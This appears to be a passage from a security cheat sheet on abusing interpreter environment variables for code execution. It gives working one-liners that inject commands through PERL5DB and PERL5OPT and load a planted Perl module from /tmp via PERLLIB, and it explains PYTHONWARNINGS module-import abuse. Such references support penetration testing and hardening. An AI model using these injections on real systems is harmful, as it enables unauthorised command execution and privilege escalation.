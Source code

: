 References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)

## PERL5DB

[PERL5DB](https://perldoc.perl.org/perlrun#PERL5DB) specifies the command used to load the debugger code. `PERL5DB` is only used when Perl is started with a bare `-d` switch.

```bash
PERL5OPT=-d PERL5DB='system("ls -la");' perl /dev/null
```

References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)

## PERLLIB and PERL5LIB

[PERLLIB](https://perldoc.perl.org/perlrun#PERLLIB) and [PERL5LIB](https://perldoc.perl.org/perlrun#PERL5LIB) set a list of directories in which to look for Perl library files before looking in the standard library. If `PERL5LIB` is defined, `PERLLIB` is not used.

`PERLLIB` and `PERL5LIB` can be used to execute arbitrary commands if there is a way to write a malicious Perl module to a file system:

```bash
$ cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("cmdname arg1 arg2");
EOF
$ PERLLIB=/tmp PERL5OPT=-Mroot perl /dev/null
```

References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)
- [CVE-2016-1531 exploit](https://github.com/HackerFantastic/exploits/blob/979c345959349cb829e473faae9fe040b7290876/cve-2016-1531.sh)

## PYTHONWARNINGS

[PYTHONWARNINGS](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONWARNINGS) is equivalent to specifying the [-W](https://docs.python.org/3/using/cmdline.html#cmdoption-W) option that is used for warning control. The full form of argument is `action:message:category:module:line`.

Warning control triggers the import of an arbitrary Python module if the specified category contains a dot:

```python
# /Lib/warnings.py
# ...
def _getcategory(category):
    if not category:
        return Warning
    if '.' not in category:
        import builtins as m
        klass = category
    else:
        module, _, klass = category.rpartition('.')
        try:
            m = __import__(module, None, None, [klass])
        except ImportError:
            raise _OptionError("invalid module name: %r" % (module,)) from None
```